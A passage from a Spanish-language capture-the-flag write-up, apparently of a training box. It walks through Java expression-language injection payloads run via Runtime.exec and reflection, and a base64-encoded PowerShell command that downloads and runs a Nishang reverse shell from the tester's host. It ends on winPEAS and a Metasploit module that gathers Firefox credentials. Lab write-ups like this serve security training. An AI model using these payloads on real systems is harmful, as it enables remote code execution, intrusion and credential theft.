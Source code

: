Es funcional, así que modificamos el exploit que descargamos y en PayloadsAllTheThings vamos a la sección de Java:

```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
```

Modificamos para que haga ping a nuestra máquina:

```java
${T(java.lang.Runtime).getRuntime().exec('ping 10.10.14.18')}
```

Llegamos a la sección Expression Language EL - Code Execution y aquí rescatamos el código:

**Método usando Reflection & Invoke:**

```java
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec('ping 10.10.14.18')}
```

Luego URL encodeamos y ahora sí nos detecta las trazas. Listo, tenemos capacidad de ejecución remota de comandos, así que entraremos con una PowerShell.

## Reverse Shell

Descargamos:

```
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

Hacemos wget al raw del mismo y rescatamos:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
```

Modificamos IP y puerto por los que queramos, entonces en Burp capturamos, enviamos al forward, decodificamos lo encodeado anteriormente con `Ctrl + Shift + U` y dentro de la sección exec ponemos:

```powershell
powershell -enc 
```

Codificamos en base64 y lanzamos:

```bash
echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18/ps.ps1')" | iconv -t utf-16le | base64 -w 0; echo
```

Descarga y ejecuta el archivo ps1, tenemos una reverse shell. Buscamos la flag de user.

Una vez dentro verificamos permisos, vamos a desktop, hacemos `ls` y vemos un link simbólico (`.lnk`) y un archivo `server.bat`. Mientras seguimos revisando, en paralelo descargaremos winPEAS hacia la víctima, y podemos ver que Clara tiene archivos de configuración relacionados a Firefox.

```
use post/multi/gather/firefox_creds
```
